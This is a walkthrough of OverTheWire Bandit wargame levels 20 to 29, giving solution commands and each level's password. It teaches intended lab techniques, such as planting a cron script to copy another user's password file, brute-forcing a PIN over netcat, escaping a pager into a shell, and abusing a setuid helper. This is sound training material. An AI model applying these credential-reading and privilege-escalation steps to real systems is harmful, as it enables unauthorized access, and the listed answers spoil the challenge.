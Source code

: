 
## Level 20 -> 21
### Look -> ssh, nc, cat, bash, screen, tmux, Unix ‘job control’ (bg, fg, jobs, &, CTRL-Z, …)
#### Solve
```bash
echo -n 'GbKksEFF4yrVs6il55v6gwY5aVje5f0j' | nc -l -p 1234 &
./suconnect 1234
```
**password**: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 21 -> 22
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**password**: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 22 -> 23
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/ #(write echo's result)
```
**password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 23 -> 24
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
mkdir /tmp/bnd
cd /tmp/bnd
vim bandit_pass.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bnd/password
chmod 777 bandit_pass.sh
touch password
chmod 777 password
chmod 777 .
cp bandit_pass.sh /var/spooll/bandit24/foo
cat password
# you need to wait for a minute and read the password file
```
**password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
chmod +rwx bandit_pass.sh
./bandit_pass.sh
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- Read
	- https://www.geeksforgeeks.org/more-command-in-linux-with-examples/
```bash
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org
#(you have to resize your window until see more command)
#understand how more command works
	:set shell=/bin/bash
	:sh
```
**password**: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

## Level 26 -> 27
### Look ->  ls
#### Solve
- look bandit27-do permissions and understand what should you do!
	- IT'S SO EASY DON'T BE LAZY
```bash
ls -la
./bandit27-do cat /etc/bandit_pass/bandit27
```
**password**: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB


## Level 27 -> 28
### Look ->  git
#### Solve
```bash
mkdir /tmp/bandit_27git
cd /tmp/bandit_27git
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
cd repo
cat README
```
**password**: Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN


## Level 28 -> 29
### Look ->  git
#### Solve
- a
```bash
mkdir /tmp/bandit_28git
cd /tmp/bandit_28git
git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo
cd repo
git log
git show 674690a00a0056ab96048f7317b9ec20c057c06b
```
**password**: 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7